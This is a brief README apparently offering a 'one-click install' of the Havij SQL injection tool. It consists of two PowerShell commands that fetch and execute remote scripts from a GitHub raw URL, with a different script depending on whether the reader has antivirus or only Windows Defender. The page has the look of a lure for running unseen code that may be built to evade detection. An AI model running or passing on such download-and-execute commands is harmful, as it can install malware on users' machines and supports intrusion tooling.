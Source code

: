 ## Havij one-click install (PowerShell)

- If you have antivirus software installed, run this command:
```powershell
iwr -useb https://raw.githubusercontent.com/mdromanmoonshi/havij/main/hlazy.ps1 | iex```

---
- If you only have Windows Defender, run this command:
```powershell
iwr -useb https://raw.githubusercontent.com/mdromanmoonshi/havij/main/onelazy.ps1 | iex```

